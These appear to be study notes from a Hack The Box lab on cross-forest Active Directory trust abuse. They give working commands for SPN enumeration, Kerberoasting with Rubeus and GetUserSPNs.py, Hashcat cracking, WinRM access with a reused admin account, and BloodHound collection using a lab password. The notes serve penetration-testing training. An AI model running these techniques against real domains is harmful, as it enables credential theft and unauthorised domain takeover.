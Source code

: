
## Attacking Domain Trusts - Cross-Forest Abuse (Windows)

1. Enumerate Accounts for Associated SPNs Using Get-DomainUser
```
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```

2. Enumerate the mssqlsvc Account
```
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```

3. Perform Kerberoasting with Rubeus Using /domain Flag
```
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL/user:mssqlsvc /nowrap
```
- We could then run the hash through Hashcat. If it cracks, we've now quickly expanded our access to fully control two domains by leveraging a pretty standard attack and abusing the authentication direction and setup of the bidirectional forest trust.



Admin Password Re-Use & Group Membership

We can use the PowerView function Get-DomainForeignGroupMember to enumerate groups with users that do not belong to the domain, also known as foreign group membership. Let's try this against the FREIGHTLOGISTICS.LOCAL domain with which we have an external bidirectional forest trust.

1. Use Get-DomainForeignGroupMember (PowerView)
![[Pasted image 20230105191023.png]]
The above command output shows that the built-in Administrators group in FREIGHTLOGISTICS.LOCAL has the built-in Administrator account for the INLANEFREIGHT.LOCAL domain as a member. We can verify this access using the Enter-PSSession cmdlet to connect over WinRM.

2. Access DC03 Using Enter-PSSession
```
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```

From the command output above, we can see that we successfully authenticated to the Domain Controller in the FREIGHTLOGISTICS.LOCAL domain using the Administrator account from the INLANEFREIGHT.LOCAL domain across the bidirectional forest trust. This can be a quick win after taking control of a domain and is always worth checking for if a bidirectional forest trust situation is present during an assessment and the second forest is in-scope.



SID History Abuse - Cross Forest
![[Pasted image 20230105191151.png]]


## Attacking Domain Trusts - Cross-Forest Abuse (Linux)

Cross-Forest Kerberoasting

1. Use GetUserSPNs.py
```
TeneBrae93@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```
- -request flag added gives us the TGS ticket.
- Crack the hash with hashcat



Hunting Foreign Group Membership with Bloodhound-python

1. Add INLANEFREIGHT.LOCAL Information to /etc/resolv.conf
![[Pasted image 20230105191332.png]]

2. Run bloodhound-python Against INLANEFREIGHT.LOCAL
```
TeneBrae93@htb[/htb]$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```

3. Compress the files with zip -r
```
TeneBrae93@htb[/htb]$ zip -r ilfreight_bh.zip *.json
```

4. Add freightlogistics.local to /etc/resolv.conf
![[Pasted image 20230105191426.png]]

5. Run bloodhound-python Against FREIGHTLOGISTICS.LOCAL
```
TeneBrae93@htb[/htb]$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA- DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```

- After uploading the second set of data (either each JSON file or as one zip file), we can click on Users with Foreign Domain Group Membership under the Analysis tab and select the source domain as INLANEFREIGHT.LOCAL
- We will see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTICS.LOCAL domain as we saw previously.

![[Pasted image 20230105191533.png]]
